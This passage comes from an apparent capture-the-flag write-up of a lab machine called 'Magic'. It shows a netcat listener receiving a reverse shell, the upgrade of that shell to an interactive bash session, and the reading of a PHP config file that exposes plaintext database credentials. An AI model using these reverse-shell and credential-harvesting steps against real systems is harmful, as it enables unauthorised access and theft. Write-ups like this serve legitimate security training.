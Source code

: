 ```python
zweilos@kalimaa:~/Downloads$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.185] 48146
/bin/sh: 0: can't access tty; job control turned off
$ python -c import pty;pty.spawn('/bin/bash');
/bin/sh: 1: Syntax error: word unexpected (expecting ")")
$ python -c "import pty;pty.spawn('/bin/bash');"
/bin/sh: 1: python: not found
$ python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 8099
zweilos@kalimaa:~/Downloads$ stty raw -echo
zweilos@kalimaa:~/Downloads$ nc -lvnp 8099

www-data@ubuntu:/var/www/Magic/images/uploads$ export TERM=xterm-256color
www-data@ubuntu:/var/www/Magic/images/uploads$
```

a shell!

## Initial Foothold

### Enumeration as `www-data`

```php
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
    private static $cont  = null;
    public function __construct() {
        die('Init function is not allowed');
    }
    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }
    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

